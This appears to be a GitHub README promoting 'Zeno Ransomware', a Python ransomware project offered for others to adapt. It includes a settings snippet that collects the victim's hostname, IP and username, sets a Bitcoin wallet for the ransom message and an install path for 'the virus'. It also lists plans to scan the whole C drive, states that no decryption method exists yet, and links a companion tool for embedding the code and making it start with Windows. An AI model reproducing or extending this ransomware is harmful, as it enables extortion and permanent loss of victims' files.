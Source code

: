 ![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Ransomware / Ransomware Written in Python
This is a simple ransomware source written in Python, With file encryption
and file decryption, Along with a lot of usability and comfort and ability to adapt
the code to your liking.

# Notice Errors
> * **To do:**
> * **Scan All Directories in C Drive**
> * **Scan Specific Directories in C Drive**
> * **Add Priority Directories in C Drive**

# Fix
> * **Add Decryption Methods, NONE AT THE MOMENT**

# Usage (Pieces of code, Look in Source)
```python
# =?/Settings/?= #
hostname=socket.gethostname()    # Get Hostname
IPAddr=socket.gethostbyname(hostname)   # Get IP

root = tk.Tk()
canvas = Canvas()
screensize = [f'{GetSystemMetrics(0)}', f'{GetSystemMetrics(1)}'] # Get resolution of monitor (1920x1080)
btc_wallet=str("bc1qgvsjxmw0t6jcezdxjg7n4yu08t5skm2f36zemt") # Bitcoin Addr to show on Msg
auto_decrypt = int(0) # Developer Stuff

user = os.getlogin() # Get Username of PC Directory (users)
cache_path=str(f"C:\\Users\\{user}\\Documents\\230") # Path to install the virus too ( MUST HAVE \\ not \ )
cache_name=str(f"encrypted.txt") # Cache file name to read and write too
cache_mem=[] # !DO NOT TOUCH THIS!
```
**You may want to change this depending on what your code does, Keep in mind of permission issues**
**handles read and write of file in class function.**
# Starting up with windows and extra stuff
To use these features you must import the code into zeno_Embedder which is a tool to do exactly this -> https://github.com/Zurek0x/zeno_Embedder

